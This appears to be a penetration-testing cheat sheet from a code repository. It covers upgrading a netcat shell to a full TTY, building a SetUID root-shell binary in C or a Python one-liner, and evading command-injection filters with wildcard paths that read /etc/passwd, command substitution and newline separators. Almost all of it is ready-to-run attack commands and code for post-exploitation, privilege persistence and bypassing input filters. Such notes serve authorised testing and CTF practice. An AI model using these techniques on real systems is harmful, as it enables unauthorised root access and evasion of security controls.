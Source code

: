 # Techniques

## TTY Upgrade

Given a plain shell (via `netcat` or the like), this technique will convert the shell to a full TTY with support for signals, command history, and more. Particularly useful for preventing you from killing your shell when you do Ctrl-C as part of your muscle memory. [Source](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

```
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo
fg
reset
export SHELL=bash
export TERM=xterm-256color
stty -a
stty rows <num> columns <cols>
```

## SetUID 

### C Version

If you need a basic C program that you can set the SetUID bit, use this:

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void) { setuid(0); setgid(0); system("/bin/bash"); }
```

Compile on the target, set SetUID, and run. Can likely compile locally and move to target if no compiler available

```bash
gcc -o setuid setuid.c && chown root:root setuid && chmod u+s setuid && ls -la setuid && ./setuid
```

### Python Version

If compiling a C program is annoying, an alternative method is to SetUID the python executable. Rather than using the system one, it's better to copy the python executable on the system somewhere else, and then SetUID your temporary copy. Then, run the following:

```python
python -c 'import os,pty;os.setuid(0);os.setgid(0);pty.spawn("/bin/bash");'
```

## Command Injection Filter Evasion

If filters are stopping things like `/bin/cat` `/etc/passwd`, you can use bash expressions like `/bi?/ca?` `/et?/pas?wd` instead.

You can use `` `command` `` or `$(command)` to help with injection.

If you can't use `; & |` as separators, try injecting a raw `\n` instead (Burp helps).
